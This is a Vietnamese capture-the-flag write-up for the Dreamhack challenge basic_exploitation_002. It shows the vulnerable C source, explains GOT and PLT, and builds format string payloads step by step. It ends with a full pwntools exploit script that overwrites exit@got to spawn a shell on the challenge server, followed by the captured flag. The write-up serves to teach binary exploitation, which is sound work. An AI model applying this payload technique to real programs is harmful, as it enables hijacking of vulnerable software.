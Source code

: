 # DH[basic_exploitation_002]

![be2.1](be2.1.png)

Uhhh thì mô tả nó là vậy đó =))
Theo tác giả nói ở trên thì đây là **Format String bug** ( fmt )
Nhấp vào nút Download nó sẽ tự động tải về 1 file zip, giải nén ra thì đc như này : gồm 1 file binary và 1 file source code

    $ file *
    basic_exploitation_002:   ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4edc3b7b1d4cc47397011a77cabb0b8f7025b52b, not stripped
    basic_exploitation_002.c: C source, ASCII text
    
### Source code
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    read(0, buf, 0x80);
    printf(buf);

    exit(0);
}

``` 
### Analysis
 
Chương trình khá đơn giản, có 1 biến **buf 0x80 byte**, chương trình sẽ đọc dữ liệu từ người dùng thông qua biến `buf` này và in nó ra, tuy nhiên hàm để in là `printf` thiếu mất *đặc tả* nên gây ra lỗi `fmt`. Bên cạnh đó chương trình còn có hàm để set null một số giá trị cần thiết và chương trình đc set thời gian, nếu quá thì sẽ gọi hàm `alarm_handler()` và `exit`. Ta có 1 hàm cho phép tạo shell, mục tiêu mà ta cần nhắm đến.
Để có thể tạo và lấy được `shell`, ta phải gọi được hàm `get_shell`, how?

**GOT** (global offset table) & **PLT** (procedure linkage table)

![be2.4](be2.4.png)

`GOT` là một vùng nhớ, 1 bảng chứa tất cả các hàm của thư viện `libc`, nó sẽ được gọi khi chương trình gọi 1 hàm nào đó trong `libc`.

![be2.2](be2.2.png)

Khi chương trình gọi 1 hàm nào đó trong libc nó sẽ gọi ra 1 hàm có dạng `@plt` hàm này chỉ có 1 lệnh duy nhất là nhảy vào 1 địa chỉ trong `GOT`

![be2.3](be2.3.png)

Nếu là lần đầu gọi tới hàm `exit`, `exit@plt` sẽ nhảy tới `exit@got.plt`, rồi nó trỏ tới 1 chuỗi các lệnh để tìm ra địa chỉ thật sự của `exit`, lưu nó vào `exit@got.plt`, rồi thực thi hàm `exit()`.
Từ những lần sau `exit@plt` chỉ cần nhảy vào `exit@got.plt` và lúc này `exit@got.plt` đang chứa địa chỉ thật sự của `exit()` nên `exit()` sẽ được thực thi luôn, có thể gọi `GOT` là 1 bảng các con trỏ hàm. Nếu ta có thể *overwrite* địa chỉ thực sự của hàm lưu trong `GOT` thì có thể gọi được hàm mà ta mong muốn, đấy cũng là target của chall này =))

### Exploit

Ta sẽ overwrite địa chỉ `GOT` đang trỏ tới bằng cặp **%c%n**, `%n` sẽ chứa số byte mà đã được ghi trước nó. 

**VD**: khi hàm print đúng, đủ có dạng `printf(buf, &size)`, send **payload = b'AAAA%n'**. Thì lúc đó đỉnh `stack` sẽ trỏ tới chuỗi mà mình vừa nhập, kề sau là địa chỉ của `size`, *`%n`* sẽ đếm số byte được in, ở đây là 4 và ghi vào size. Còn nếu printf thiếu đặc tả dữ liệu, stack vẫn sẽ trỏ tới chuỗi ta vừa nhập, sau đó sẽ puts địa chỉ của chuỗi đó vào, vì vậy `arg` đầu tiên của `printf` sẽ là địa chỉ của chuỗi, trong ví dụ sẽ là `AAAA` tức `0x41414141` và `%n` vẫn sẽ đếm số lượng byte được in trước nó, là `4`, rồi ghi vào `0x41414141`. Tất nhiên đây là địa chỉ không khả dụng nên chương trình sẽ báo lỗi. 

![be2.5](be2.5.png))

Lí thuyết vậy thôi =)). 
```python
payload = p32(exit_got)
payload += b"%134514185c%n" # 0x8048609 = 134514185
```
Ta sẽ ghi tắt bằng cách sử dụng `%c` (`%c` sẽ in lần lượt mỗi 1 byte) vậy thì `134514185` sẽ được `overwrite` vào `exit_got`

![be2.6](be2.6.png)

Có thể thấy chương trình đang báo lỗi, và vòng lặp output vô hạn. Chắc do số ghi vào quá lớn, tận *134514185* =)). Nên ta sẽ chia nỏ nó ra và push lần lượt vào 0x8048609 => 0x**804**(2052)/0x**8609**(34313). 

```python
payload = p32(exit_got+2)
payload += p32(exit_got)
payload += b"%2052c%1$hn%34313c%2$hn" #h= half, 1 có nghĩa là chỉ ghi vào 2 byte đầu, 2 tương tự chỉ ghi vào 2 byte sau
```
![be2.7](be2.7.png)

Tuy đã có thể ghi đè giá trị nhưng vẫn không như ta mong muốn. Payload của ta vẫn đang có vấn đề. Do ta đã push 2 địa chỉ, mỗi cái 4 byte nên phần padding ở %c ta phải trừ cho 8 byte `2052 - 8 = 2044`. Cộng thêm khi ghi đè phần thứ 2 thì nó sẽ cộng dồn với phần cũ nên padding thứ 2 ta phải trừ cho 2052 byte đã ghi ở trước `34313 - 2052 = 32261`.

```python
payload = p32(exit_got+2)
payload += p32(exit_got)
payload += b"%2044c%1$hn%32261c%2$hn"
```
![be2.8](be2.8.png)

lần này thì đúng rồi :v

```python
#!/usr/bin/python3
from pwn import *
exe= ELF('./basic_exploitation_002', checksec=False)
exit_got = exe.got['exit']
shell = exe.sym['get_shell']
log.info("exit got: "+ hex(exit_got))
log.info("shell: "+ hex(shell))
#p = process([exe.path])
p = remote('host3.dreamhack.games', 22785)
input()
payload = p32(exit_got+2)
payload += p32(exit_got)
payload += b"%2044c%1$hn%32261c%2$hn"
p.send(payload)
p.interactive()
```
![be2.9](be2.9.png)

lụm lúa =)) `flag: DH{59c4a03eff1e4c10c87ff123fb93d56c}`